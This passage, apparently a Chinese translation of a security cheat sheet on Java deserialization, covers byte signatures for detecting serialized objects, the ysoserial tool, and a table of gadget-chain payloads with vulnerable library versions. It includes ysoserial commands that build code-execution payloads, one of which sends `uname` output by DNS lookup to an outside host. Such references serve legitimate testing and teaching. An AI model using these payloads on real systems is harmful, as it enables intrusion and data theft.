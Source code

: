 # Java 反序列化

> Java 序列化是将 Java 对象的状态转换为字节流的过程，该字节流可以被存储或传输，并在以后重新构造（反序列化）回原始对象。Java 中的序列化主要通过 `Serializable` 接口实现，标记一个类为可序列化的，从而允许它保存到文件、通过网络发送或在 JVM 之间传输。

## 概述

* [检测](#检测)
* [工具](#工具)
    * [Ysoserial](#ysoserial)
    * [使用 Ysoserial 的 Burp 扩展](#burp-extensions)
    * [替代工具](#alternative-tooling)
* [YAML 反序列化](#yaml-反序列化)
* [ViewState](#viewstate)
* [参考文献](#参考文献)

## 检测

* Hex 中的 `"AC ED 00 05"`
    * `AC ED`: STREAM_MAGIC。指定这是一个序列化协议。
    * `00 05`: STREAM_VERSION。序列化版本。
* Base64 中的 `"rO0"`
* `Content-Type` = "application/x-java-serialized-object"
* Gzip(Base64) 中的 `"H4sIAAAAAAAAAJ"`

## 工具

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial)：一种用于生成利用不安全 Java 对象反序列化漏洞的有效载荷的概念验证工具。

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**Ysoserial 包含的有效载荷列表：**

| 有效载荷            | 作者                                | 依赖项                     |
| ------------------- | ---------------------------------- | --------------------------- |
| AspectJWeaver       | @Jang                              | aspectjweaver:1.9.2, commons-collections:3.2.2 |
| BeanShell1          | @pwntester, @cschneider4711        | bsh:2.0b5                  |
| C3P0                | @mbechler                          | c3p0:0.9.5.2, mchange-commons-java:0.2.11 |
| Click1              | @artsploit                         | click-nodeps:2.3.0, javax.servlet-api:3.1.0 |
| Clojure             | @JackOfMostTrades                  | clojure:1.8.0              |
| CommonsBeanutils1   | @frohoff                           | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2 |
| CommonsCollections1 | @frohoff                           | commons-collections:3.1    |
| CommonsCollections2 | @frohoff                           | commons-collections4:4.0   |
| CommonsCollections3 | @frohoff                           | commons-collections:3.1    |
| CommonsCollections4 | @frohoff                           | commons-collections4:4.0   |
| CommonsCollections5 | @matthias_kaiser, @jasinner        | commons-collections:3.1    |
| CommonsCollections6 | @matthias_kaiser                   | commons-collections:3.1    |